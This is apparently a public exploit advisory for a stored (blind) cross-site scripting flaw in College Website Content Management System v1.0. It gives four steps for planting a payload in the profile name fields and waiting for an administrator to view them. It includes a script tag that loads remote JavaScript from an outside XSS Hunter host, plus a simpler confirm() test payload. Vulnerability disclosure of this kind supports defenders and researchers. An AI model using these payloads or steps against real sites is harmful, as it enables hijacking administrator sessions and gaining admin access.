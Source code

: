 # Exploit Title: College Website - Content Management System v1.0 - Blind Cross Site Scripting(XSS)
# Exploit Author: NS Kumar (n1_x)
# Date: March 4, 2022
# Vendor Homepage: https://www.sourcecodester.com/php/15203/college-website-content-management-system-phpoop-free-source-code.html
# Software Link: https://www.sourcecodester.com/sites/default/files/download/oretnom23/cwms.zip
# Tested on: Parrot Linux, Apache, Mysql
# Vendor: oretnom23
# Version: v1.0
# Exploit Description:
# College Website - Content Management System v1.0 suffers from Stored(Blind) XSS Injection Vulnerability allowing remote attackers to gain admin access and view internal IPs. 

````````````````````````````````````````To Exploit````````````````````````````````````````````````````

Step 1: Goto Profile Page
Step 2: Put XSS Hunter or Any other Payload on Either First Name or Last Name field
Step 3: Wait for Admin to view your details or Just Reload the page you can see the popup shows up
Step 4: Then you will see xss fires alert on xss hunter page

Payload Used for this Exploit: "><script src=https://d4.xss.ht></script> or <script>confirm('Testing for XSS')</script>

```````````````````````````````````````````````````````````````````````````````````````````````````````